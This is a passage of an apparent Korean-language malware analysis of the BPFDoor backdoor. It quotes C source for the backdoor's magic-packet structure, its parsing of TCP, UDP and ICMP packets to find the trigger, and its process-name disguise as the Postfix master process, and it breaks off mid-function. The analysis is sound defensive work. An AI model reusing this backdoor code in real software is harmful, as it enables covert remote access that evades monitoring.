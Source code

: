 이 필터를 통해 BPFDoor는 매직 넘버가 포함된 특정 패킷만 유저 공간으로 전달하고 그 외의 모든 패킷은 전달하지 않기 때문에 일반적인 포트 스캔이나 패킷 모니터링으로 잘 눈에 띄지 않는다  
<br>

---

### 프로토콜 구분

```c
struct magic_packet{
        unsigned int    flag;
        in_addr_t       ip;
        unsigned short  port;
        char   pass[14];
} __attribute__ ((packed));

...

switch(ip->ip_p) {
        case IPPROTO_TCP:
                tcp = (struct sniff_tcp*)(buff+14+size_ip);
                size_tcp = TH_OFF(tcp)*4;
                mp = (struct magic_packet *)(buff+14+size_ip+size_tcp);
                break;
        case IPPROTO_UDP:
                udp = (struct sniff_udp *)(ip+1);
                mp = (struct magic_packet *)(udp+1);
                break;
        case IPPROTO_ICMP:
                pbuff = (char *)(ip+1);
                mp = (struct magic_packet *)(pbuff+8);
                break;
        default:
                break;
}
```

매직 패킷에는 플래그, 아이피, 포트, 비밀번호가 담겨서 전달된다  
플래그에 있는 매직 넘버를 사용하여 매직 패킷을 구분한다  

매직 패킷이 TCP, UDP, ICMP 프로토콜을 통하여 IP 패킷으로 전달되었을 경우 헤더와 매직 패킷을 각 구조체에 맞춰 저장한다  
<br>

---

### 매직 패킷 처리

```c
if (mp) {
        if (mp->ip == INADDR_NONE)
                bip = ip->ip_src.s_addr;
        else
                bip = mp->ip;

        pid = fork();
        if (pid) {
                waitpid(pid, NULL, WNOHANG);
        }
        else {
                int cmp = 0;
                char sip[20] = {0};
                char pname[] = {0x2f, 0x75, 0x73, 0x72, 0x2f, 0x6c, 0x69, 0x62, 0x65, 0x78, 0x65, 0x63, 0x2f, 0x70, 0x6f, 0x73, 0x74, 0x66, 0x69, 0x78, 0x2f, 0x6d, 0x61, 0x73, 0x74, 0x65,
0x72, 0x00}; // /usr/libexec/postfix/master

                if (fork()) exit(0);
```